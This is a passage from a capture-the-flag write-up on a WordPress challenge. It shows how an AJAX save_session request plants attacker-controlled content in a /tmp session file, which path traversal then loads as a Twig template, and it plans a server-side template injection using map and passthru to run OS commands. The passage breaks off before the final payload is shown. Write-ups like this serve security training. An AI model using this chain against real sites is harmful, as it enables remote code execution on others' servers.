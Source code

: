 Let's test this!

First, we'll send the following AJAX action to save data into the session file:

```http
GET /wp-admin/admin-ajax.php?action=save_session&session_data=foobar HTTP/1.1
Host: localhost


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922172733.png)

Then, we can read the session file in directory `/tmp`:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Timberlake)-[2024.09.22|17:23:55(HKT)]
└> docker exec -it 3ac7f40fbda8 /bin/bash
root@3ac7f40fbda8:/var/www/html# ls -lah /tmp
[...]
-rw------- 1 www-data www-data   26 Sep 22 09:25 sess_jgfmrmbm6a5b59hpan1e702636
root@3ac7f40fbda8:/var/www/html# cat /tmp/sess_jgfmrmbm6a5b59hpan1e702636 
session_data|s:6:"foobar";
```

Cool!

Since we now control a template file's content, **we can use AJAX action `save_session` to inject our SSTI payload into our session file**! 

But wait! Can we reach to directory `/tmp`?

```php
Timber::$dirname = array( '../../../../../../../../../../../../tmp', 'templates' );
[...]
function validate($filename) {
    $fullPath = Timber::$dirname[0] . '/' . $filename;
    [...]
}
```

Oh, the `$fullPath` is basically `/tmp/$filename`. So, yes we can reach to directory `/tmp`!

## Exploitation
{% raw %}
In order to pass all the checks in function `validate`, we need to fulfill the following requirements:
1. The template filename must not be the blacklisted file extension. (This check is completely useless)
2. The template file's content must include the Twig template string literal, such as `{{.*?}}`
3. The template file's content must not include the blacklisted keywords

{% endraw %}
According to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig---code-execution), we can use **function `map` and `passthru` to execute OS commands**, as they're not included in the keywords array.
